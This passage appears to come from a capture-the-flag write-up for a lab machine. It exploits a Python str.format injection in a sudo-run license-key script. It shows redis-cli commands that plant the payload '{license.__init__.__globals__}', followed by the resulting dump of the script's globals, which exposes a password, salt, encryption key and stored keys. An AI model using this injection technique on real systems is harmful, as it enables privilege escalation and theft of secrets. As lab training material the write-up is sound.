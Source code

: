 Looking at this code, we can see that this is a license key manager script which will take the username as input, read information like `first-name` and `last-name` from it and then generate a plaintext and an encoded license key. The license key can also be validated via the secret and the salt used to encrypt the license key.

Looking at this code, we notice that we have control over 3 variables (username, first-name, last-name) and all 3 of them get processed together in a `format` method. This [article](https://www.geeksforgeeks.org/vulnerability-in-str-format-in-python/) from Geeksforgeeks shows how the `format` method is vulnerable and can be used to access object's attributes.

With this information, we can craft the following payload to add to redis: `{license.__init__.__globals__}`

```vim
cooper@format:~$ redis-cli -s /var/run/redis/redis.sock
redis /var/run/redis/redis.sock> hset a username {license.__init__.__globals__}
(integer) 1
redis /var/run/redis/redis.sock> hset a first-name a
(integer) 1
redis /var/run/redis/redis.sock> hset a last-name a
(integer) 1
redis /var/run/redis/redis.sock> exit

cooper@format:~$ sudo /usr/bin/license -p a

Plaintext license key:
------------------------------------------------------
microblog{'__name__': '__main__', '__doc__': None, '__package__': None, '__loader__': <_frozen_importlib_external.SourceFileLoader object at 0x7f96290d7c10>, '__spec__': None, '__annotations__': {}, '__builtins__': <module 'builtins' (built-in)>, '__file__': '/usr/bin/license', '__cached__': None, 'base64': <module 'base64' from '/usr/lib/python3.9/base64.py'>, 'default_backend': <function default_backend at 0x7f9628f2a430>, 'hashes': <module 'cryptography.hazmat.primitives.hashes' from '/usr/local/lib/python3.9/dist-packages/cryptography/hazmat/primitives/hashes.py'>, 'PBKDF2HMAC': <class 'cryptography.hazmat.primitives.kdf.pbkdf2.PBKDF2HMAC'>, 'Fernet': <class 'cryptography.fernet.Fernet'>, 'random': <module 'random' from '/usr/lib/python3.9/random.py'>, 'string': <module 'string' from '/usr/lib/python3.9/string.py'>, 'date': <class 'datetime.date'>, 'redis': <module 'redis' from '/usr/local/lib/python3.9/dist-packages/redis/__init__.py'>, 'argparse': <module 'argparse' from '/usr/lib/python3.9/argparse.py'>, 'os': <module 'os' from '/usr/lib/python3.9/os.py'>, 'sys': <module 'sys' (built-in)>, 'License': <class '__main__.License'>, 'parser': ArgumentParser(prog='license', usage=None, description='Microblog license key manager', formatter_class=<class 'argparse.HelpFormatter'>, conflict_handler='error', add_help=True), 'group': <argparse._MutuallyExclusiveGroup object at 0x7f9627ad07c0>, 'args': Namespace(provision='a', deprovision=None, check=None), 'r': Redis<ConnectionPool<UnixDomainSocketConnection<path=/var/run/redis/redis.sock,db=0>>>, '__warningregistry__': {'version': 0}, 'secret': 'unCR4ckaBL3Pa$$w0rd', 'secret_encoded': b'unCR4ckaBL3Pa$$w0rd', 'salt': b'microblogsalt123', 'kdf': <cryptography.hazmat.primitives.kdf.pbkdf2.PBKDF2HMAC object at 0x7f9627ad0e50>, 'encryption_key': b'nTXlHnzf-z2cR0ADCHOrYga7--k6Ii6BTUKhwmTHOjU=', 'f': <cryptography.fernet.Fernet object at 0x7f9627af55e0>, 'l': <__main__.License object at 0x7f9627af56d0>, 'user_profile': {b'username': b'{license.__init__.__globals__}', b'first-name': b'a', b'last-name': b'a'}, 'existing_keys': <_io.TextIOWrapper name='/root/license/keys' mode='r' encoding='UTF-8'>, 'all_keys': ['cooper.dooper:gAAAAABjZbN1xCOUaNCV_-Q12BxI7uhvmqTGgwN12tB7Krb5avX5JdSzE2dLKX53ZpHxHrzpNnAwQ6g1FTduOtBAl4QYRWF27A2MPfedfMzgNZrv_VqUwCAfzGZeoQCv1-NBIw6GaoCA0yIMPl0o3B6A2_Hads32AsdDzOLyhetqrr8HUgtLbZg=\n'], 'user_key': 'cooper.dooper:gAAAAABjZbN1xCOUaNCV_-Q12BxI7uhvmqTGgwN12tB7Krb5avX5JdSzE2dLKX53ZpHxHrzpNnAwQ6g1FTduOtBAl4QYRWF27A2MPfedfMzgNZrv_VqUwCAfzGZeoQCv1-NBIw6GaoCA0yIMPl0o3B6A2_Hads32AsdDzOLyhetqrr8HUgtLbZg=\n', 'prefix': 'microblog', 'username': '{license.__init__.__globals__}', 'firstlast': 'aa'}sfcx!L9cg-`9Y$S%S,8G?J%C_<VX-=|)vk|N3B'Daa

Encrypted license key (distribute to customer):
------------------------------------------------------
```